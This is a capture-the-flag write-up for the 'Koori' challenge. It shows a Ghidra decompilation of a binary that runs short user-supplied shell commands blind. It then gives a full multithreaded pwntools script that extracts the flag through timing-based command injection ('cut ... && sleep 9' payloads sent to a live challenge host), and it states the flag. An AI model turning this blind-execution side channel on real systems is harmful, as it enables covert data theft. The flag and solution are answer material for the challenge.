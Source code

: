 # Koori

```
Only someone afflicted with Koori must strengthen their other senses! Is there anything that can take the place of the eyes?

nc 65.109.210.228 31333
```

Decompile the attachment in Ghidra:

```c

/* WARNING: Globals starting with '_' overlap smaller symbols at the same address */

undefined8 main(void)

{
  int iVar1;
  size_t sVar2;
  undefined1 auStack_130 [24];
  char input [256];
  long local_18;
  
  local_18 = ___stack_chk_guard;
  setbuf(_stdout,(char *)0x0);
  setbuf(_stdin,(char *)0x0);
  FUN_00100dd8(auStack_130);
  printf("Please send your input :) ");
  fgets(input,0x100,_stdin);
  sVar2 = strcspn(input,"\n");
  input[sVar2] = '\0';
  sVar2 = strlen(input);
  if (0x20 < sVar2) {
    puts("Sorry, your input is too lengthy :|");
                    /* WARNING: Subroutine does not return */
    exit(1);
  }
  FUN_00100e54(auStack_130);
  iVar1 = FUN_00100f24(input,0xe);
  if (iVar1 != 0) {
    puts("The input timed out :(");
  }
  FUN_00100ea4(auStack_130);
  puts("Your input has been validated :D");
  if (local_18 - ___stack_chk_guard != 0) {
                    /* WARNING: Subroutine does not return */
    __stack_chk_fail(&__stack_chk_guard,0,0,local_18 - ___stack_chk_guard);
  }
  return 0;
}


/* WARNING: Globals starting with '_' overlap smaller symbols at the same address */

undefined8 FUN_00100f24(undefined8 param_1,int param_2)

{
  __pid_t _Var1;
  undefined8 uVar2;
  time_t __time1;
  double dVar3;
  uint local_28;
  __pid_t local_24;
  time_t local_20;
  long local_18;
  
  local_18 = ___stack_chk_guard;
  local_24 = fork();
  if (local_24 == 0) {
    execl("/bin/sh","sh",&DAT_001011e8,param_1,0);
    perror("Failed :(");
                    /* WARNING: Subroutine does not return */
    exit(1);
  }
  if (local_24 < 0) {
    perror("ERR :|");
    uVar2 = 0xffffffff;
  }
  else {
    local_20 = time((time_t *)0x0);
    while (_Var1 = waitpid(local_24,(int *)&local_28,1), _Var1 == 0) {
      __time1 = time((time_t *)0x0);
      dVar3 = difftime(__time1,local_20);
      if ((double)param_2 < dVar3) {
        kill(local_24,9);
        waitpid(local_24,(int *)0x0,0);
        uVar2 = 0xffffffff;
        goto LAB_00101058;
      }
      sleep(1);
    }
    if ((local_28 & 0x7f) == 0) {
      uVar2 = 0;
    }
    else {
      uVar2 = 0xffffffff;
    }
  }
LAB_00101058:
  if (local_18 - ___stack_chk_guard != 0) {
                    /* WARNING: Subroutine does not return */
    __stack_chk_fail(&__stack_chk_guard,uVar2,0,local_18 - ___stack_chk_guard);
  }
  return uVar2;
}
```

It executes the provided shell command (length <= 0x20) with a timeout. The stdin/stdout/stderr are redirect to /dev/null, so we cannot use them to leak data. Instead, we can use time as the side channel to leak data.

Following the same blind execution process of <https://wr3nchsr.github.io/cyctf-blindexec-writeup/>, attack in steps:

1. for each character position `idx` and possible character `c`, execute:

```shell
[ `cut -c{idx} f*` = {c} ]&&sleep 9
```

2. if it finishes before 9s, the condition is not satisfied; otherwise, we found a match

Based on the multithreaded exploit code from <https://wr3nchsr.github.io/cyctf-blindexec-writeup/>, here is the attack code for this challenge:

```python
import pwn
import string
import itertools
import time
from threading import Thread

bruteforce_pool = (
    string.ascii_lowercase + string.ascii_uppercase + string.digits + "}{_!-;:"
)
keys = {}
for c in bruteforce_pool:
    keys[c] = 0


def check(idx, c):
    global keys
    io = pwn.remote("65.109.210.228", 31333)
    payload = f"[ `cut -c{idx} f*` = {c} ]&&sleep 9"
    io.sendlineafter(b"Please send your input :)", payload.encode())
    output = io.recvline(timeout=8)
    if b"Your input has been validated :D" not in output:
        keys[c] = 1
    io.close()


def main():
    global keys
    flag = ""
    logging = pwn.log.progress("Flag")
    while not flag.endswith("}"):
        print(flag)
        # run simultaneous connections for each possible character
        for batch in itertools.batched(bruteforce_pool, 6):
            threads = list()
            for c in batch:
                t = Thread(target=check, args=(len(flag) + 1, c))
                t.start()
                threads.append(t)
            for t in threads:
                t.join()
            print(keys, flag)

            # break early
            counter = 0
            for i in keys:
                if keys[i]:
                    counter += 1
            if counter == 1:
                break

        # check for false positives or no output
        counter = 0
        for i in keys:
            if keys[i]:
                counter += 1
        if counter != 1:
            for i in keys:
                keys[i] = 0
            time.sleep(1)
            continue

        # get correct value
        for k in keys:
            if keys[k]:
                flag += k
                logging.status(flag)
                keys[k] = 0
                break
    logging.success(flag)


if __name__ == "__main__":
    main()
```

Flag: `ASIS{bl!nD_3XeCuTi0n!}`.
